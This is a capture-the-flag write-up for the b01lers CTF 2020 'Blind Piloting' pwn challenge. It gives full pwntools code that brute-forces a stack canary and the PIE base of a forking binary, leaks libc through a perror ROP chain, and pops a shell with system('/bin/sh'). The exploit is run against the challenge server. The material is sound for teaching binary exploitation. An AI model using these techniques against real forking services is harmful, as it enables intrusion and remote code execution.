






# b01lers CTF 2020

## Blind Piloting

> **Blind Piloting 1**
> 
> Dave now has permanent eye damage because he was in the game too long. He's trying to get home, but he can't see. Guide him.
> 
> **Blind Piloting 2**
> 
> Dave is almost home! He still can't see, but at least he's headed in the right direction.
> 
> `nc pwn.ctf.b01lers.com 1007`
> 
> [3504de16acb8b2e521528882eab3bc53](blind-piloting.tgz)
> 
> Author: nsnc


Tags: _pwn_ _stack canary_ _bof_ _libc_ _got_ _remote shell_

### Introduction

This writeup is more of a walkthrough.  If too verbose, then click [exploit.py](exploit.py)


### Full Disclosure

I solved this _after_ the CTF had ended, about 3 days later.

I have to give huge shoutout to **@novafacing** (b01lers CTF 2020 Game Master) for keeping this challenge up and twice restarting it for me late at night (within seconds of asking). Otherwise, I would have just chalked this up as another miss and waited for the next CTF.


### Analysis

#### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.

#### Decompile with Ghidra

`blindpiloting` has three functions of interest: `main`, `getInput`, and `win`:






`main` just forks and then calls `getInput` (this is important).

`getInput` reads one char character at a time into `acStack24` until either a `\n` is read or 64 characters has been read into a buffer allocated for 8 characters.  Clearly this is a vulnerability, however a stack canary prevents overflowing into `local_10`, e.g. 9 A's:

```
# ./blindpiloting
> AAAAAAAAA
*** stack smashing detected ***: <unknown> terminated
```


### Exploit Part 1

#### Attack Plan

1. Brute-force the stack canary.
2. Smash stack and change return pointer to call `win` to obtain `flag1.txt`


#### Bruce-force the stack canary

> This is a great article on the principals of bruce-forcing stack canaries: [https://ctf101.org/binary-exploitation/stack-canaries/](https://ctf101.org/binary-exploitation/stack-canaries/):
> 
> _This method can be used on fork-and-accept servers where connections are spun off to child processes, but only under certain conditions such as when the input accepted by the program does not append a NULL byte (read or recv)._

The above text from the aforementioned URL correctly describes this challenge.  The _fork-and-accept_ is required so that the canary does not change, this is due to the fork cloning the parent memory, including the stack canary.

Code:

```
#!/usr/bin/env -S python3 -i

from pwn import *
import binascii
import sys

p = process('./blindpiloting')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#p = remote('pwn.ctf.b01lers.com',1007)
#libc = ELF('libc.so.6')

p.recvuntil('> ')
buf = 8 * b'A'
canary = p8(0)
x = [i for i in range(256) if i != 10 ]

for i in range(7):
    for j in x:
        payload = buf + canary + p8(j)
        p.sendline(payload)
        r = p.recvuntil('terminated',timeout=1)
        if not r:
            canary += p8(j)
            print(binascii.hexlify(canary))
            break
        p.clean()
    if r:
        print("FAILED, you prob got a LF (0xa) in canary")
        sys.exit(1)

print("HAVE CANARY")
```

The x86_64 LSB canary byte is always 0, so only 7 bytes to bruce-force.

The `x = [i for i in range(256) if i != 10 ]` expression creates an array of all byte values to test (`0x00` - `0xFF`) without `0xA` (`\n`).  This is important since `getInput` will terminate with a `\n`.  _But what if 0xA is part of the canary?_  Well, you're screwed, start over.

The rest of this snippet just loops though each position checking for `terminated` (frequent and quick, see output above), if not, then `j` must be a valid canary byte.

Example output:

```
root@53ade7d2b4a0:/pwd/datajerk/b01lersctf/blind-piloting# ./exploit.py
[x] Starting local process './blindpiloting'
[+] Starting local process './blindpiloting': pid 35650
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'000e'
b'000e76'
b'000e7605'
b'000e7605f7'
b'000e7605f702'
b'000e7605f7027a'
b'000e7605f7027aed'
HAVE CANARY
```

At this point any 8 characters + `b'000e7605f7027aed'` will pass the canary check and allow the stack to be smashed.

#### Smash stack and change return pointer to call `win`

Typically at this point we'd overwrite the saved base pointer and then the return address, however because of ASLR (_PIE enabled_--see above) we do not know what address to write.  However, we do not need to overwrite the entire address, just the lower bits.

To illustrate this add the following code and the end of the code above and rerun:

```
import code
code.interact(
    local=locals(),
    banner="\nfrom another terminal type: gef blindpiloting " + str(p.pid) + "\n",
    exitmsg="\ngoing back to code\n"
)
```

This code will startup the Python REPL preserving our current state:


After brute-forcing the canary, we're prompted to type `gef blindpiloting 35650`.

> `gef`, like `peda` and `pwndbg` are GDB enhancements that make exploit development a bit easier.  In this example I just happen to be using `gef`.

The next argument is the binary, and the last the PID.

> In the left-hand pane I typed the aforementioned, and then typed `context` followed by `disas win`, then `vmmap`.

The first line from `vmmap` reports the base address of the binary.  In this case `0x000056401f907000`.

You can also correlate this with the saved base pointer (see stack):

```
0x00007ffdad48ead0│+0x0018: 0x000056401f907ab0  →  <__libc_csu_init+0> push r15 ← $rbp
```

and the first line of `win`:

```
0x000056401f9079ec <+0>:	push   rbp
```

All three start with `0x000056401f907`.

Basically, we just need to overwrite `0x9ec` into the return address lower 12 bits to execute `win`, however we cannot send 1/2 bytes (nibbles), so we'll need to send `0x79ec` (the `7` is the last nibble of `0x000056401f907`).  Because x86_64 is little endian bytes are written from right-to-left, _from this point of view_, IOW send `0xec` then `0x79`.

In the left pane the program is currently stopped, but before we _continue_ we need to `set follow-fork-mode child` so that when `main` forks we follow the child process.  After that type `c` to start up the binary.

On the right pane type: `p.sendline()`:


Ok, now we're talking.

Send exploit from right pane:

```
p.sendline(buf + canary + 8*b'B' + p16(0x79ec))
```

This is the same as what the brute-force loop determined as the canary + 8 bytes to overwrite the saved base pointer and then the last 16-bits of the return address with the last 16-bit of the `win` address.



SIGSEGV.  No flag.

The exploit worked and it _did_ call `win` as shown by the backtrace:

```
[#0] 0x7fae7bb4b13d → do_system(line=0x56401f907b37 "cat flag1.txt")
[#1] 0x56401f9079fc → win()
[#2] 0x7ffdad48ebb0 → add DWORD PTR [rax], eax
```

But why the SIGSEGV from `libc`?:

```
   0x7fae7bb4b12d <do_system+349>  mov    QWORD PTR [rsp+0x68], 0x0
   0x7fae7bb4b136 <do_system+358>  mov    r9, QWORD PTR [rax]
   0x7fae7bb4b139 <do_system+361>  punpcklqdq xmm0, xmm1
 → 0x7fae7bb4b13d <do_system+365>  movaps XMMWORD PTR [rsp+0x50], xmm0
   0x7fae7bb4b142 <do_system+370>  call   0x7fae7bc05a00 <__GI___posix_spawn>
   0x7fae7bb4b147 <do_system+375>  mov    rdi, r12
   0x7fae7bb4b14a <do_system+378>  mov    DWORD PTR [rsp+0x8], eax
   0x7fae7bb4b14e <do_system+382>  call   0x7fae7bc05900 <__posix_spawnattr_destroy>
   0x7fae7bb4b153 <do_system+387>  mov    eax, DWORD PTR [rsp+0x8]
```

The first hit from Googling `"movaps XMMWORD PTR [rsp+0x50], xmm0"` (see little `→` above) returned: [https://blog.binpang.me/2019/07/12/stack-alignment/](https://blog.binpang.me/2019/07/12/stack-alignment/) (pause and read this).

There are two ways to solve this:

1. Write a return ROP gadget on the stack after the base pointer but before the `win` address.  The problem with that is that we'd need to know the entire base process address (we need to figure this out anyway for the 2nd flag).
2. Jump _into_ `win` avoiding the `push rbp` that is misaligning the stack.

```
Dump of assembler code for function win:
   0x000056401f9079ec <+0>:	push   rbp
   0x000056401f9079ed <+1>:	mov    rbp,rsp
   0x000056401f9079f0 <+4>:	lea    rdi,[rip+0x140]        # 0x56401f907b37
   0x000056401f9079f7 <+11>:	call   0x56401f9077e0 <system@plt>
   0x000056401f9079fc <+16>:	nop
   0x000056401f9079fd <+17>:	pop    rbp
   0x000056401f9079fe <+18>:	ret
```

Option 2 for this part of the challenge is the simpler solution, instead of using `0x79ec` we'll use `0x79f0`.

To test this we first need to attach GDB to the parent process with `attach 35650`.  This is a parent PID.  This can be obtained from the right pane with `p.pid`.

Next we just repeat the previous steps, `c` in the left pane, then `p.sendline()` in the right.

Now the exploit:

```
p.sendline(buf + canary + 8*b'B' + p16(0x79f0))
```



The left pane should have something like this:

```
process 36414 is executing new program: /usr/bin/dash
[Attaching after process 36414 fork to child process 36415]
[New inferior 5 (process 36415)]
[Detaching after fork from parent process 36414]
[Inferior 4 (process 36414) detached]
process 36415 is executing new program: /usr/bin/cat
[Inferior 5 (process 36415) exited normally]
```

Indicating that `/bin/sh` followed by `/usr/bin/cat` was executed.

Exploit achieved.

If you type `print(p.recvline())` in the right pane you should get the output of the `cat` command, IOW, `flag1.txt`:

```
>>> print(p.recvline())
b'> > > pctf{34zy_fl4g_h3r3_n0t_muc4_m0r3}\n'
```

There's one last bit to figure out; that leading `7`.  The difference between the base process address and `win` is `0x9ec`. The `7` was random (ASLR) and will need to be brute-forced as well when exploiting the remote server (no GDB to help you there):

Replacing:

```
import code
code.interact(
    local=locals(),
    banner="\nfrom another terminal type: gef blindpiloting " + str(p.pid) + "\n",
    exitmsg="\ngoing back to code\n"
)
```

with:

```
bp = 8 * b'B'
flag1 = 0x9f0

for i in range(16):
    payload = buf + canary + bp + p16(flag1 + i * 0x1000)
    print(hex(flag1 + i * 0x1000))
    p.sendline(payload)
    _ = p.recvuntil('}',timeout=0.25)
    if _.find(b'pctf') != -1:
        print(_[_.find(b'pctf'):])
        break
    p.clean()

if _.find(b'pctf') == -1:
    print("FAILED, no base for you")
    sys.exit(1)
```

should do the trick.

The `payload` should look similar to the handjob above, however we have to test each 4th nibble until the exploit works.

The `p.recvuntil('}',timeout=0.25)` will wait up to `0.25` seconds to detect the flag.  When testing with the challenge server it may need to be tuned depending on how overloaded the server is and network congestion.  `0.25` worked for me (3 days after the CTF).  Longer is fine too, it's only 16 attempts.

> P.S. remember to create a `flag1.txt` file during dev/test.

Output:

```
[x] Starting local process './blindpiloting'
[+] Starting local process './blindpiloting': pid 36426
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'0008'
b'0008d5'
b'0008d531'
b'0008d531e5'
b'0008d531e54a'
b'0008d531e54af3'
b'0008d531e54af367'
HAVE CANARY
0x9f0
0x19f0
0x29f0
0x39f0
0x49f0
0x59f0
0x69f0
0x79f0
0x89f0
0x99f0
0xa9f0
0xb9f0
0xc9f0
0xd9f0
b'pctf{34zy_fl4g_h3r3_n0t_muc4_m0r3}'
```

Flag 1: `pctf{34zy_fl4g_h3r3_n0t_muc4_m0r3}`


### Exploit Part 2

There isn't a `win2`.

We're going to need to perform a 3rd brute-force to get the entire base process address.  This is fairly straightforward using the same techniques above.  Once we have this we have options, such as ROP.


#### Analysis

We need to find a way to emit something useful.  Once we have the base processor address we can use ROP, however there's really nothing of much use within the binary itself (or at least I could find)--we're going to need to use `libc`.

Let's check the menu.

Type `gef blindpiloting`, then `r` to run, then `ctrl-c` to stop, then finally `got`:

```
gef➤  got

GOT protection: Full RelRO | GOT functions: 9

[0x555555754f90] write@GLIBC_2.2.5  →  0x7ffff7ecf300
[0x555555754f98] __stack_chk_fail@GLIBC_2.4  →  0x7ffff7ef0dd0
[0x555555754fa0] system@GLIBC_2.2.5  →  0x7ffff7e134e0
[0x555555754fa8] read@GLIBC_2.2.5  →  0x7ffff7ecf260
[0x555555754fb0] setvbuf@GLIBC_2.2.5  →  0x7ffff7e45d50
[0x555555754fb8] waitpid@GLIBC_2.2.5  →  0x7ffff7ea3a30
[0x555555754fc0] perror@GLIBC_2.2.5  →  0x7ffff7e234f0
[0x555555754fc8] exit@GLIBC_2.2.5  →  0x7ffff7e07d40
[0x555555754fd0] fork@GLIBC_2.2.5  →  0x7ffff7ea3d90
```

These are the `libc` functions from our GOT that we can call.  On the left are the addresses in the process space, and this we can brute-force and leverage.  On the right are the `libc` addresses of the function.  The Linux dynamic linker/loader populates this table and thanks to ASLR it will be different (both sides of the table) on each run (but not each fork).

From the list, `write`, `system`, and `perror` can all emit characters.  `write` is more complex requiring 3 arguments (4 actually--system call number).  `system` is perfect, however we have to pass a pointer to a character string with the command we want to run.  Unfortuneatly there is no `cat flag2.txt` or `/bin/sh` in `blindpiloting` we can use.  That leaves `perror`.

`perror` in this context is not unlike `puts`.  `perror`, like `system`, needs a pointer to a string--a "string" being an array of bytes terminated with a NULL), and will emit that string along with some other text (that we have little use for except to detect we successfully called `perror`).

The GOT is table of pointers, we just need to pick one to leak.  `write` is out--it has a NULL byte in the address (`0x7ffff7ecf300`)--`perror` will not emit the entire address.  The rest are all fine candidates.  Out of laziness I just used `perror`'s address (yyp, edit--you'll see in the code).

When `perror` is invoked it expects RDI to be loaded with an address to a constant string, so we first have to _pop_ a value into RDI.  You can determine this by looking at the Ghidra disassemble:


You can also discovery this with a small C program and GDB by setting a breakpoint before `perror` and looking at the stack, e.g.:

```
#include <stdio.h>

int main()
{
	perror("foo");
	return 0;
}
```

Compile and load with `gef perror_test`, disassemble, set breakpoint, then run:

```
# gcc -o perror_test perror_test.c
# gef perror_test
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000001149 <+0>:	endbr64
   0x000000000000114d <+4>:	push   rbp
   0x000000000000114e <+5>:	mov    rbp,rsp
   0x0000000000001151 <+8>:	lea    rdi,[rip+0xeac]        # 0x2004
   0x0000000000001158 <+15>:	call   0x1050 <perror@plt>
   0x000000000000115d <+20>:	mov    eax,0x0
   0x0000000000001162 <+25>:	pop    rbp
   0x0000000000001163 <+26>:	ret
End of assembler dump.
gef➤  b *main+15
Breakpoint 1 at 0x1158
gef➤  r
Starting program: /pwd/datajerk/b01lersctf/blind-piloting/perror_test
```

After the break, look at the registers, notice a pointer to `foo` in `$rdi`:

```
$rax   : 0x0000555555555149  →  <main+0> endbr64
$rbx   : 0x0
$rcx   : 0x0000555555555170  →  <__libc_csu_init+0> endbr64
$rdx   : 0x00007fffffffe658  →  0x00007fffffffe874  →  "LESSOPEN=| /usr/bin/lesspipe %s"
$rsp   : 0x00007fffffffe560  →  0x0000555555555170  →  <__libc_csu_init+0> endbr64
$rbp   : 0x00007fffffffe560  →  0x0000555555555170  →  <__libc_csu_init+0> endbr64
$rsi   : 0x00007fffffffe648  →  0x00007fffffffe840  →  "/pwd/datajerk/b01lersctf/blind-piloting/perror_tes[...]"
$rdi   : 0x0000555555556004  →  0x3b031b01006f6f66 ("foo"?)
$rip   : 0x0000555555555158  →  <main+15> call 0x555555555050 <perror@plt>
$r8    : 0x0
$r9    : 0x00007ffff7fe11f0  →   endbr64
$r10   : 0x0
$r11   : 0x0
$r12   : 0x0000555555555060  →  <_start+0> endbr64
$r13   : 0x00007fffffffe640  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
```

Or you can just RTFM (Linux Kernel docs):

```
RAX -> system call number
RDI -> first argument
RSI -> second argument
RDX -> third argument
R10 -> fourth argument
R8 -> fifth argument
R9 -> sixth argument
```

Since `perror` has one argument, RDI it is.

After leaking a `libc` address, it's game over.


#### Attack Plan

1. Brute-force base process address using `flag1.txt`
2. Use `perror` to leak `libc` address
3. Use `libc` to to get a shell
4. Get the flag


#### Brute-force base process address using `flag1.txt`

Append to the previous code:

```
p.clean()
procbase = p16(flag1 + i * 0x1000)

for i in range(6):
    for j in x:
        payload = buf + canary + bp + procbase + p8(j)
        p.sendline(payload)
        r = p.recvuntil('> ')
        r += p.clean(timeout=0.25)
        if r.find(b'pctf') != -1:
            procbase += p8(j)
            print(binascii.hexlify(procbase))
            break
    if not r.find(b'pctf') != -1:
        print("FAILED, you prob got an LF (0xa) in stack")
        sys.exit(1)

procbase = int(procbase[::-1].hex(),16) ^ flag1
print(hex(procbase))
print("HAVE PROCBASE")

import code
code.interact(
    local=locals(),
    banner="\nfrom another terminal type: gef blindpiloting " + str(p.pid) + "\n",
    exitmsg="\ngoing back to code\n"
)
```

You should be getting use to this pattern by now--looping through all bytes (but `0xa`) and testing for success (in this case `flag1.txt`).  This time the payload is 8 A's + canary + 8 B's (for the saved base pointer) + procbase (the first 2 bytes from the previous step + others brute-forced in this 3rd step).

Of the 8 bytes, we only have to bruce-force 6 since we already know the first two from the previous step.  Actually, it not strictly necessary to brute-force the last two bytes; x86_64 only uses 48-bit addresses (as of this writing), since this could change in the future, and since brute-forcing `0x00` is quick, I kept the outer loop to find all 6 remaining bytes.

w.r.t. the following two lines:

```
        r = p.recvuntil('> ')
        r += p.clean(timeout=0.25)
```

This is where I lost a bit of time.  The previous code I had developed worked locally but not remotely.  When testing over the network I'd either get `> pctf{34zy_fl4g_h3r3_n0t_muc4_m0r3}` or `pctf{34zy_fl4g_h3r3_n0t_muc4_m0r3} >` depending on whether or not the new fork sent the new prompt (`> `) before the old fork sent the flag.  To fix this I added the 2nd line to wait 0.25 seconds for any other output.  Like the previous step this is tunable and may vary depending on the network and challenge server load.  Larger values will still work, just slower.

> Tip: use `context.log_level='DEBUG'` when developing your _pwntools_ exploits to find these problems sooner.

Run it:



The right pane is the output of all three bruce-force attacks.  We have the canary, the first flag, and the base process address (`0x563df74f1000`).  In the left pane GDB (gef) is running with `set follow-fork-mode child` with `context` output.

#### Use `perror` to leak `libc` address

In the left pane type `got`:

```
gef➤  got

GOT protection: Full RelRO | GOT functions: 9

[0x563df76f1f90] write@GLIBC_2.2.5  →  0x7f72abaa7300
[0x563df76f1f98] __stack_chk_fail@GLIBC_2.4  →  0x7f72abac8dd0
[0x563df76f1fa0] system@GLIBC_2.2.5  →  0x7f72ab9eb4e0
[0x563df76f1fa8] read@GLIBC_2.2.5  →  0x7f72abaa7260
[0x563df76f1fb0] setvbuf@GLIBC_2.2.5  →  0x7f72aba1dd50
[0x563df76f1fb8] waitpid@GLIBC_2.2.5  →  0x7f72aba7ba30
[0x563df76f1fc0] perror@GLIBC_2.2.5  →  0x7f72ab9fb4f0
[0x563df76f1fc8] exit@GLIBC_2.2.5  →  0x7f72ab9dfd40
[0x563df76f1fd0] fork@GLIBC_2.2.5  →  0x7f72aba7bd90
```

`perror` is `procbase` + `0x200fc0`.  This is our _pointer_ to a _libc_ address (e.g. `0x7f72ab9fb4f0`).

Actually, there is an easier way to find this with _pwntools_, in the right pane, type:

```
binary = ELF('blindpiloting')
perror_got = binary.got['perror']
hex(perror_got)
hex(procbase + perror_got)
```

Output:

```
>>> binary = ELF('blindpiloting')
[*] '/pwd/datajerk/b01lersctf/blind-piloting/blindpiloting'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
>>> perror_got = binary.got['perror']
>>> hex(perror_got)
'0x200fc0'
>>> hex(procbase + perror_got)
'0x563df76f1fc0'
```

That last value (`0x563df76f1fc0 `) should match `perror` in the GOT above (`[0x563df76f1fc0] perror@GLIBC_2.2.5`).

To call `perror` to emit (leak) the `libc` address, we can use the PLT, in the right pane, type:

```
perror_plt = binary.plt['perror']
hex(perror_plt)
hex(procbase + perror_plt)
```

Output:

```
>>> perror_plt = binary.plt['perror']
>>> hex(perror_plt)
'0x820'
>>> hex(procbase + perror_plt)
'0x563df74f1820'
```

`0x563df74f1820 ` is the address to overwrite into the return address (stack).

In the left pane type `disas 0x563df74f1820` to confirm:

```
gef➤  disas 0x563df74f1820
Dump of assembler code for function perror@plt:
   0x0000563df74f1820 <+0>:	jmp    QWORD PTR [rip+0x20079a]        # 0x563df76f1fc0 <perror@got.plt>
   0x0000563df74f1826 <+6>:	push   0x6
   0x0000563df74f182b <+11>:	jmp    0x563df74f17b0
End of assembler dump.
```

Setting the return address in the stack to `procbase` + `0x820` (`0x563df74f1820`) will call `perror` and emit whatever RDI points to.

> This would be a good time to read up on GOT, PLT, and ROP.

Lastly we need a way _pop_ a value from the stack into RDI, and to do that we need ROP.  In the right pane, type:

```
context.clear(arch='amd64')
rop = ROP('blindpiloting')
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
hex(pop_rdi)
```

Output:

```
>>> context.clear(arch='amd64')
>>> rop = ROP('blindpiloting')
[*] Loaded 14 cached gadgets for 'blindpiloting'
>>> pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
>>> hex(pop_rdi)
'0xb13'
```

That is the location in `blindpiloting` where there is a `pop rdi` instruction followed by a `ret` instruction.  To illustrate this:

```
# objdump -M intel -d blindpiloting | grep -A1 b12:
 b12:	41 5f                	pop    r15
 b14:	c3                   	ret
```

At offset `0xb13` is `0x5f` followed by `0xc3`.

`0x5f` is `pop rdi`, and `0xc3` is `ret`.  An easy way to check:

```
# cat >rop.s <<'EOF'
> BITS 64
> pop rdi
> ret
> EOF
# nasm rop.s
# hexdump -C rop
00000000  5f c3                                             |_.|
00000002
```

Now that we have all the necessary information it is time to test our leak, in the left pane type `c` to continue, and in the right pane type:

```
p.sendline()
```

left pane should look something like this:

```
gef➤  c
Continuing.
[Attaching after process 6079 fork to child process 7377]
[New inferior 2 (process 7377)]
[Detaching after fork from parent process 6079]
[Inferior 1 (process 6079) detached]
```

In the right pane, create and send payload:

```
payload  = buf + canary + bp
payload += p64(procbase + pop_rdi)
payload += p64(procbase + perror_got)
payload += p64(procbase + perror_plt)
```

This payload will write out the buffer, then overflow the canary and the saved base pointer.  The return address on the stack will be replaced with the address to our `pop rdi` gadget.  This gadget will _pop_ off the next value on the stack (the address to `perror` in the GOT that is then a pointer to the libc `perror` function) into `rdi`.  The second instruction in the gadget will `ret`.  That return will then pop off the next value on the stack into `rip` and execute the `perror` function that will then leak a libc address.

```
p.sendline(payload)
```

The left pane should have exited _normally_:

```
gef➤  c
Continuing.
[Attaching after process 6079 fork to child process 7377]
[New inferior 2 (process 7377)]
[Detaching after fork from parent process 6079]
[Inferior 1 (process 6079) detached]
[Inferior 2 (process 7377) exited normally]
gef➤
```

In the right pane type the following to get and print the output:

```
_ = p.recvline()
_
```

Output:

```
b'> \xf0\xb4\x9f\xabr\x7f: Success\n'
```

Got the address of `perror`!  Now lets get libc:

```
perror=(int(_.strip()[:-9][-6:][::-1].hex(),16))
hex(perror)
libcbase = perror - libc.symbols['perror']
hex(libcbase)
```

Output:

```
>>> perror=(int(_.strip()[:-9][-6:][::-1].hex(),16))
>>> hex(perror)
'0x7f72ab9fb4f0'
>>> libcbase = perror - libc.symbols['perror']
>>> hex(libcbase)
'0x7f72ab996000'
```

The address of `perror` (`0x7f72ab9fb4f0`) should match `perror` from the GOT above (`[0x563df76f1fc0] perror@GLIBC_2.2.5  →  0x7f72ab9fb4f0`).


#### Use `libc` to to get a shell



All that is left is to use libc to get a shell.  In the left pane we'll have to attach to the parent using `p.pid` (from the right pane), then `c` to continue.

Same as before, but this time we point to `/bin/sh` in libc and call system:

```
payload  = buf + canary + bp
payload += p64(procbase + pop_rdi)
payload += p64(libcbase + next(libc.search(b"/bin/sh")))
payload += p64(libcbase + libc.symbols['system'])
```

This payload is just like before, use `pop rdi; ret` gadget to pop off the address that points to `/bin/sh` in libc, then call libc `system` to execute the shell:

```
p.sendline()
p.sendline(payload)
```


SEGSEVG again.  Does `movaps XMMWORD PTR [rsp+0x50], xmm0` look familiar?

Stack misalignment.

If you still do not understand why, read this again: [https://blog.binpang.me/2019/07/12/stack-alignment/](https://blog.binpang.me/2019/07/12/stack-alignment/)

The fix is easy, just ROP a `ret` first, then the rest of the payload.  This trick could not be used with `win` above because we did not know the entire base process address.

Use `p.pid` in the right pane to find the PID and attach in the left pane.

As before `c` to continue, and `p.sendline()`, now the payload:

```
payload  = buf + canary + bp
payload += p64(procbase + pop_rdi + 1)
payload += p64(procbase + pop_rdi)
payload += p64(libcbase + next(libc.search(b"/bin/sh")))
payload += p64(libcbase + libc.symbols['system'])
```

This payload will just return, then `pop rdi; ret`.

> `procbase + pop_rdi + 1` is just the `ret` part of the gadget, we could have also used `procbase + rop.find_gadget(['ret'])[0]`, but since we already know our gadget ends in `ret` we can just used that too.

With `rdi` pointing to the string `/bin/sh` that last part of the payload just calls `system`.  Last attempt:

```
p.sendline(payload)
```

The left pane should report a shell is running:

```
gef➤  c
Continuing.
[Attaching after process 6079 fork to child process 7383]
[New inferior 5 (process 7383)]
[Detaching after fork from parent process 6079]
[Inferior 4 (process 6079) detached]
[Attaching after process 7383 vfork to child process 7384]
[New inferior 6 (process 7384)]
[Detaching vfork parent process 7383 after child exec]
[Inferior 5 (process 7383) detached]
process 7384 is executing new program: /usr/bin/dash
[Attaching after process 7384 fork to child process 7385]
[New inferior 7 (process 7385)]
[Detaching after fork from parent process 7384]
[Inferior 6 (process 7384) detached]
process 7385 is executing new program: /usr/bin/dash
```

Got shell.

In the right pane type: `p.interactive()`

```
>>> p.interactive()
[*] Switching to interactive mode
```


#### Get the flag

Type `cat flag2.txt`:

```
pctf{Eh_2_brute_Brut3_BRUT3!}
```

ctrl-d when done.


### Remote output:

Change: `#!/usr/bin/env -S python3 -i` to `#!/usr/bin/env python3` if you like.

```
[+] Opening connection to pwn.ctf.b01lers.com on port 1007: Done
[*] '/pwd/datajerk/b01lersctf/blind-piloting/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'008d'
b'008df2'
b'008df267'
b'008df267d6'
b'008df267d651'
b'008df267d651bd'
b'008df267d651bd38'
HAVE CANARY
0x9f0
0x19f0
0x29f0
0x39f0
0x49f0
b'pctf{34zy_fl4g_h3r3_n0t_muc4_m0r3}'
b'f04948'
b'f0494894'
b'f049489414'
b'f04948941456'
b'f0494894145600'
b'f049489414560000'
0x561494484000
HAVE PROCBASE
[*] '/pwd/datajerk/b01lersctf/blind-piloting/blindpiloting'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for 'blindpiloting'
0x7f406a3a6270
0x7f406a32b000
HAVE LIBCBASE
[*] Switching to interactive mode

> $ cat flag2.txt
pctf{Eh_2_brute_Brut3_BRUT3!}
```


